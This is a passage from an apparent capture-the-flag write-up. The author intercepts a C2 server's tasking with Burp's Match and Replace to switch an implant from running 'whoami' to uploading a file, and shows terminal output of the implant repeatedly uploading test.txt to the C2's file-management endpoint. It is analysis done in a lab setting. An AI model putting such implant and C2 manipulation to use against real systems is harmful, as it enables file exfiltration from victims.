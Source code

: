 I'll use the "Match and Replace" options in Burp Proxy to change the
incoming tasking from the C2. The first GET to `/poll` always looks
like:



    HTTP/1.1 200 OK
    date: Fri, 22 Oct 2021 01:21:14 GMT
    server: uvicorn
    content-length: 110
    content-type: application/json
    Connection: close

    {"status":0,"arg1":"whoami","id":2,"result":"","target":"16f55c83d2bb6c1f59aa654da817a256","task":1,"arg2":""}



I want to change `"task":1` --\> `"task":3`, and `"arg1":"whoami"` --\>
`"arg1:"test.txt"`.

I'll add that in the Options again:

![](/img/image-20211021212514150.png)

With both, it looks like:

![](/img/image-20211021212553198.png)

If I run `./implant`, it errors out:



    oxdf@parrot$ ./implant 
    {"status":0,"arg1":"test.txt","id":3,"result":"","target":"1da79ea0774ee5438910b2d2734e3188","task":3,"arg2":""}
    curl: (26) Failed to open/read local data from file/application



I forgot to create `test.txt`. This time it works:



    oxdf@parrot$ ./implant 
    {"status":0,"arg1":"test.txt","id":4,"result":"","target":"17a831078f79c7c80a2dade8bd2edf50","task":3,"arg2":""}
    {"message":"File upload successful /file_management/?file=test.txt"}
    {"status":0,"arg1":"test.txt","id":4,"result":"","target":"17a831078f79c7c80a2dade8bd2edf50","task":3,"arg2":""}
    {"message":"File upload successful /file_management/?file=test.txt"}
    {"status":0,"arg1":"test.txt","id":4,"result":"","target":"17a831078f79c7c80a2dade8bd2edf50","task":3,"arg2":""}
    {"message":"File upload successful /file_management/?file=test.txt"}
    {"status":0,"arg1":"test.txt","id":4,"result":"","target":"17a831078f79c7c80a2dade8bd2edf50","task":3,"arg2":""}
    {"message":"File upload successful /file_management/?file=test.txt"}
    {"status":0,"arg1":"test.txt","id":4,"result":"","target":"17a831078f79c7c80a2dade8bd2edf50","task":3,"arg2":""}
    {"message":"File upload successful /file_management/?file=test.txt"}^C
